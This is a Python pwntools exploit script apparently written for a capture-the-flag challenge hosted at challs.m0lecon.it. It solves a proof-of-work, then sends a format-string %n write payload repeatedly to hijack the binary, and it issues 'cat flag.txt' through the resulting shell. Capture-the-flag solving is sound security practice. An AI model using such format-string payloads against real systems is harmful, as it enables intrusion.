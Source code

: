 
```python
#!/usr/bin/env python3

from pwn import *
from hashlib import sha256
import re
import time
exe = ELF("chall")

context.binary = exe
context.terminal = "kitty"

def solvepow(p, n):
    s = p.recvline()
    starting = s.split(b'with ')[1][:10].decode()
    s1 = s.split(b'in ')[-1][:n]
    i = 0
    print("Solving PoW...")
    while True:
        if sha256((starting+str(i)).encode('ascii')).hexdigest()[-n:] == s1.decode():
            print("Solved!")
            p.sendline(starting + str(i))
            break
        i += 1

def conn():
    if args.REMOTE:
        r = remote("challs.m0lecon.it",1907)
        solvepow(r, n = 5)
        return r
    elif args.GDB:
        return gdb.debug([exe.path],gdbscript="b *signin+270\nc\nderef $rsp")
    else:
        return process([exe.path])


def main():
    r = conn()

    for i in range(0xf+1):
        r.sendline(b"%*10$c%*11$c%8$n")

    time.sleep(1)
    r.sendline(b"cat flag.txt;exit;")
    log.info((b"flag found: " + re.search(b"(ptm{.*})", r.recvall()).group(1)).decode())

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```
